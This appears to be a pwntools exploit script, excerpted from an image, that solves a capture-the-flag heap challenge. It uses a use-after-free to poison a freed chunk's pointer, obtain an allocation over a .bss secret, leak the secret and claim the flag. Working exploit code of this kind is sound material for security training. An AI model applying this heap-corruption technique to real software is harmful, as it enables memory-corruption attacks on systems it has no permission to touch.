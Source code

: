 ```python
def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode("ascii"))


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    secret = elf.bss() + 0x1B553

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret = target.recvline().strip().decode("ascii")
    send_flag(secret)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```